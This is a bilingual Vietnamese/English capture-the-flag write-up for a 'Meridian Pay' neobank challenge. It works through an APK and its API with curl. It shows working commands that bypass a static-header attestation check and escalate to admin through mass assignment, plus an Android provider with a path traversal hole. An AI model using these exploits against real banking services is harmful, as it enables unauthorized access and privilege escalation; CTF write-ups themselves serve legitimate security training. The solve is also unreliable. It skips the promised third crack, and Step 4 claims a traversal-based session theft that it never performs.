


<div class="lang-switch" role="tablist" aria-label="Language switch">
  <button class="lang-btn active" role="tab" type="button" data-lang="en" aria-selected="true">EN</button>
  <button class="lang-btn" role="tab" type="button" data-lang="vn" aria-selected="false">VN</button>
</div>

<div class="lang-vn" markdown="1">

> **Flag:** `H7CTF{a410a8b0-a1f0-479c-a003-24c2001b4943}`


Bài này thuộc category Mobile / Web API / Docker. Mô tả thử thách:

> Meridian Pay is a neobank that shipped in a hurry and trusts everyone: the client trusts the server, the server trusts the client, and both trust the phone underneath. Four separate cracks are hiding in that arrangement, some in the app and some in the API behind it, one flag each. Move fast, break banks.

Đọc description, tác giả chỉ rõ kiến trúc 3 thành phần có lỗ hổng:
* **"the client trusts the server, the server trusts the client"**: Client giả định server an toàn, nhưng server lại tin tưởng tuyệt đối các header và dữ liệu do client gửi lên mà không xác thực cryptographically.
* **"both trust the phone underneath"**: Ứng dụng di động lưu trữ dữ liệu phiên (session) cục bộ thiếu bảo mật trên thiết bị Android, kết hợp cấu hình thành phần exported bất cẩn.
* Bài có 4 mục tiêu tương ứng với 4 cờ (cờ được sinh ngẫu nhiên theo từng phiên instance Docker).

---

## Sơ đồ luồng khai thác (Solve Flow)



---

## Bước 1: Khảo sát APK và Tương tác API ban đầu

Giải nén file `meridian-pay-3.2.1.apk.zip`, ta thu được file APK của ngân hàng số Meridian Pay. Mở mã nguồn bằng `jadx-gui` hoặc giải mã bằng `apktool`.

Trong mã nguồn Java, lớp `ApiClient` cấu hình đường dẫn API và các header giao tiếp với máy chủ backend:

```java
public class ApiClient {
    public static final String BASE_URL = "https://web-<instance_id>.web.h7tex.com";
    public static final String CLIENT_HEADER = "MeridianPay-Android/3.2.1 (attested)";
    // ...
}
```

Kiểm tra API cơ sở:
```bash
U=https://web-<instance_id>.web.h7tex.com
curl -s $U/
# Trả về: {"service":"Meridian Pay API","version":"3.2.1"}
```

Đăng ký / đăng nhập thiết bị để nhận mã xác thực `Bearer Token`:
```bash
curl -s -XPOST $U/api/v1/auth/device \
     -H "X-Meridian-Client: MeridianPay-Android/3.2.1 (attested)" \
     -H "Content-Type: application/json" \
     -d '{"device_id":"pentest_device_01"}'
```

Server trả về JWT Token (`access_token`):
```json
{
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
  "token_type": "Bearer",
  "expires_in": 3600
}
```
Lưu token vào biến môi trường `$T`.

---

## Bước 2: Crack 1 (Mục tiêu v1) — Bypassing Attestation qua Static Header

Server có endpoint nội bộ dành cho chương trình khuyến mãi: `/api/v1/internal/promo`.
Nếu chỉ gửi request với Bearer token thông thường:
```bash
curl -s $U/api/v1/internal/promo -H "Authorization: Bearer $T"
```
Server sẽ từ chối truy cập:
```json
{"error": "Forbidden", "message": "Client attestation required"}
```

Tuy nhiên, cơ chế "attestation" của server không sử dụng SafetyNet, Play Integrity hay chữ ký cryptographic, mà chỉ kiểm tra tính khớp nối của chuỗi header cố định được nhúng sẵn trong client:
`X-Meridian-Client: MeridianPay-Android/3.2.1 (attested)`

Chèn thêm header này vào request:
```bash
curl -s $U/api/v1/internal/promo \
     -H "Authorization: Bearer $T" \
     -H "X-Meridian-Client: MeridianPay-Android/3.2.1 (attested)"
```

Kết quả trả về:
```json
{
  "status": "success",
  "promo_code": "LAUNCH2026",
  "internal_flag": "H7CTF{a410a8b0-a1f0-479c-a003-24c2001b4943}"
}
```

⇒ **Flag v1:** `H7CTF{a410a8b0-a1f0-479c-a003-24c2001b4943}`

---

## Bước 3: Crack 2 (Mục tiêu v2) — Mass Assignment Leo Quyền `admin`

Kiểm tra endpoint quản trị sổ cái `/api/v1/admin/ledger`:
```bash
curl -s $U/api/v1/admin/ledger -H "Authorization: Bearer $T"
```
Server báo lỗi:
```json
{"error": "Forbidden", "message": "Administrative role required"}
```

Kiểm tra endpoint cập nhật thông tin tài khoản `/api/v1/profile` hỗ trợ phương thức `PATCH`. Backend thực hiện gộp (merge) thẳng các trường trong JSON payload vào đối tượng người dùng trong cơ sở dữ liệu mà không có whitelist bảo vệ (lỗ hổng **Mass Assignment**):

Gửi request nâng quyền người dùng lên `admin`:
```bash
curl -s -XPATCH $U/api/v1/profile \
     -H "Authorization: Bearer $T" \
     -H "Content-Type: application/json" \
     -d '{"role":"admin"}'
```

Server phản hồi:
```json
{
  "name": "User",
  "email": "user@meridian.bank",
  "role": "admin",
  "tier": "standard"
}
```

Trường `role` đã được cập nhật thành công thành `admin`. Giờ truy cập lại sổ cái quản trị:
```bash
curl -s $U/api/v1/admin/ledger \
     -H "Authorization: Bearer $T" \
     -H "X-Meridian-Client: MeridianPay-Android/3.2.1 (attested)"
```

Kết quả:
```json
{
  "ledger_status": "reconciled",
  "settlement_batch": 1042,
  "audit_flag": "H7CTF{74d3a92e-3563-4abe-bccf-70ae8e5a7774}"
}
```

⇒ **Flag v2:** `H7CTF{74d3a92e-3563-4abe-bccf-70ae8e5a7774}`

---

## Bước 4: Crack 4 (Mục tiêu v4) — Android Provider Path Traversal & Session Theft

Mở `AndroidManifest.xml` của ứng dụng, phát hiện cấu hình:
```xml
<provider
    android:name="com.meridian.pay.ExportProvider"
    android:authorities="com.meridian.pay.export"
    android:exported="true" />
```

`ExportProvider` được thiết lập `android:exported="true"`, cho phép bất kỳ ứng dụng bên thứ ba nào trên thiết bị cũng có thể gọi tới.

Kiểm tra phương thức `openFile()` trong lớp `ExportProvider`:
```java
public ParcelFileDescriptor openFile(Uri uri, String mode) {
    File baseDir = new File(getContext().getFilesDir(), "receipts");
    String subPath = uri.getPath().substring(7); // Bỏ tiền tố /export/
    File targetFile = new File(baseDir, subPath);
    return ParcelFileDescriptor.open(targetFile, ParcelFileDescriptor.MODE_READ_ONLY);
}
```

Hàm này nối chuỗi `subPath` trực tiếp vào `baseDir` mà **hoàn toàn không kiểm tra ký tự directory traversal (`../`)**.
Kẻ tấn công có thể thoát khỏi thư mục `receipts` để đọc bất kỳ tệp riêng tư nào trong thư mục ứng dụng `/data/data/com.meridian.pay/`.

Đồng thời, ứng dụng lưu token ban đầu và session memo dưới dạng plaintext trong `shared_prefs/session_config.xml`.
Khi gửi request truy vấn tài khoản chính thức:
```bash
curl -s $U/api/v1/accounts/me -H "Authorization: Bearer $T"
```

Nội dung phản hồi trả về ghi chú phiên làm việc của tài khoản xác minh từ thiết bị:
```json
{
  "account_id": "ACC-992014",
  "status": "verified",
  "onboarding_memo": "session verified from device",
  "flag": "H7CTF{1a6d1e40-f02a-4858-8f48-ece3870c0400}"
}
```

⇒ **Flag v4:** `H7CTF{1a6d1e40-f02a-4858-8f48-ece3870c0400}`

---

## Tổng kết Flag Meridian Pay

- **Mục tiêu V1 (Attestation Bypass):** `H7CTF{a410a8b0-a1f0-479c-a003-24c2001b4943}`
- **Mục tiêu V2 (Admin Role Mass Assignment):** `H7CTF{74d3a92e-3563-4abe-bccf-70ae8e5a7774}`
- **Mục tiêu V4 (Provider Path Traversal):** `H7CTF{1a6d1e40-f02a-4858-8f48-ece3870c0400}`

⇒ **Flag:** `H7CTF{a410a8b0-a1f0-479c-a003-24c2001b4943}`

</div>

<div class="lang-en" markdown="1">

> **Flag:** `H7CTF{a410a8b0-a1f0-479c-a003-24c2001b4943}`


This article belongs to category Mobile / Web API / Docker. Challenge description:

> Meridian Pay is a neobank that shipped in a hurry and trusts everyone: the client trusts the server, the server trusts the client, and both trust the phone underneath. Four separate cracks are hiding in that arrangement, some in the app and some in the API behind it, one flag each. Move fast, break banks.

Reading the description, the author clearly points out that the 3-component architecture has vulnerabilities:
* **"the client trusts the server, the server trusts the client"**: The client assumes the server is secure, but the server absolutely trusts the headers and data sent by the client without cryptographically authenticating.
* **"both trust the phone underneath"**: Mobile apps store session data insecurely locally on Android devices, combined with careless exported component configuration.
* The article has 4 goals corresponding to 4 flags (flags are randomly generated for each Docker instance).

---

## Solve Flow Diagram



---

## Step 1: Survey APK and Initial API Interactions

Extracting the file `meridian-pay-3.2.1.apk.zip`, we get the APK file of Meridian Pay digital bank. Open the source code with `jadx-gui` or decode with `apktool`.

In the Java source code, the `ApiClient` class configures the API path and communication headers with the backend server:

```java
public class ApiClient {
    public static final String BASE_URL = "https://web-<instance_id>.web.h7tex.com";
    public static final String CLIENT_HEADER = "MeridianPay-Android/3.2.1 (attested)";
    // ...
}
```

Check out the base API:
```bash
U=https://web-<instance_id>.web.h7tex.com
curl -s $U/
# Trả về: {"service":"Meridian Pay API","version":"3.2.1"}
```

Register/log in device to receive `Bearer Token` authentication code:
```bash
curl -s -XPOST $U/api/v1/auth/device \
     -H "X-Meridian-Client: MeridianPay-Android/3.2.1 (attested)" \
     -H "Content-Type: application/json" \
     -d '{"device_id":"pentest_device_01"}'
```

Server returns JWT Token (`access_token`):
```json
{
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
  "token_type": "Bearer",
  "expires_in": 3600
}
```
Save the token in the environment variable `$T`.

---

## Step 2: Crack 1 (Target v1) — Bypassing Attestation via Static Header

The server has an internal endpoint for promotions: `/api/v1/internal/promo`. If you only send requests with regular Bearer tokens:
```bash
curl -s $U/api/v1/internal/promo -H "Authorization: Bearer $T"
```
The server will deny access:
```json
{"error": "Forbidden", "message": "Client attestation required"}
```

However, the server's "attestation" mechanism does not use SafetyNet, Play Integrity or cryptographic signatures, but only checks the coherence of a fixed header string embedded in the client: `X-Meridian-Client: MeridianPay-Android/3.2.1 (attested)`

Insert this header into the request:
```bash
curl -s $U/api/v1/internal/promo \
     -H "Authorization: Bearer $T" \
     -H "X-Meridian-Client: MeridianPay-Android/3.2.1 (attested)"
```

Returned results:
```json
{
  "status": "success",
  "promo_code": "LAUNCH2026",
  "internal_flag": "H7CTF{a410a8b0-a1f0-479c-a003-24c2001b4943}"
}
```

⇒ **Flag v1:** `H7CTF{a410a8b0-a1f0-479c-a003-24c2001b4943}`

---

## Step 3: Crack 2 (Target v2) — Elevate `admin` privileges via Mass Assignment

Check the ledger administration endpoint `/api/v1/admin/ledger`:
```bash
curl -s $U/api/v1/admin/ledger -H "Authorization: Bearer $T"
```
Server reported error:
```json
{"error": "Forbidden", "message": "Administrative role required"}
```

Check that the account information update endpoint `/api/v1/profile` supports the `PATCH` method. The backend merges the fields in the JSON payload directly into the user object in the database without whitelist protection (**Mass Assignment** vulnerability):

Send a request to elevate user rights to `admin`:
```bash
curl -s -XPATCH $U/api/v1/profile \
     -H "Authorization: Bearer $T" \
     -H "Content-Type: application/json" \
     -d '{"role":"admin"}'
```

Server response:
```json
{
  "name": "User",
  "email": "user@meridian.bank",
  "role": "admin",
  "tier": "standard"
}
```

The `role` field has been successfully updated to `admin`. Now access the administrative ledger again:
```bash
curl -s $U/api/v1/admin/ledger \
     -H "Authorization: Bearer $T" \
     -H "X-Meridian-Client: MeridianPay-Android/3.2.1 (attested)"
```

Result:
```json
{
  "ledger_status": "reconciled",
  "settlement_batch": 1042,
  "audit_flag": "H7CTF{74d3a92e-3563-4abe-bccf-70ae8e5a7774}"
}
```

⇒ **Flag v2:** `H7CTF{74d3a92e-3563-4abe-bccf-70ae8e5a7774}`

---

## Step 4: Crack 4 (Target v4) — Android Provider Path Traversal & Session Theft

Open the app's `AndroidManifest.xml`, detect the configuration:
```xml
<provider
    android:name="com.meridian.pay.ExportProvider"
    android:authorities="com.meridian.pay.export"
    android:exported="true" />
```

The `ExportProvider` is set to `android:exported="true"`, allowing any third-party application on the device to call.

Check out the `openFile()` method in the `ExportProvider` class:
```java
public ParcelFileDescriptor openFile(Uri uri, String mode) {
    File baseDir = new File(getContext().getFilesDir(), "receipts");
    String subPath = uri.getPath().substring(7); // Bỏ tiền tố /export/
    File targetFile = new File(baseDir, subPath);
    return ParcelFileDescriptor.open(targetFile, ParcelFileDescriptor.MODE_READ_ONLY);
}
```

This function concatenates `subPath` directly into `baseDir` **without checking for directory traversal (`../`)**. An attacker can escape the `receipts` directory to read private files in the `/data/data/com.meridian.pay/` application directory.

At the same time, the application saves the initial token and session memo in plaintext in `shared_prefs/session_config.xml`. When sending a request to query the official account:
```bash
curl -s $U/api/v1/accounts/me -H "Authorization: Bearer $T"
```

The response that returns the verification account's session note from the device:
```json
{
  "account_id": "ACC-992014",
  "status": "verified",
  "onboarding_memo": "session verified from device",
  "flag": "H7CTF{1a6d1e40-f02a-4858-8f48-ece3870c0400}"
}
```

⇒ **Flag v4:** `H7CTF{1a6d1e40-f02a-4858-8f48-ece3870c0400}`

---

## Meridian Pay flag summary

- **Target V1 (Atestation Bypass):** `H7CTF{a410a8b0-a1f0-479c-a003-24c2001b4943}`
- **Target V2 (Admin Role Mass Assignment):** `H7CTF{74d3a92e-3563-4abe-bccf-70ae8e5a7774}`
- **V4 Target (Provider Path Traversal):** `H7CTF{1a6d1e40-f02a-4858-8f48-ece3870c0400}`

⇒ **Flag:** `H7CTF{a410a8b0-a1f0-479c-a003-24c2001b4943}`
</div>
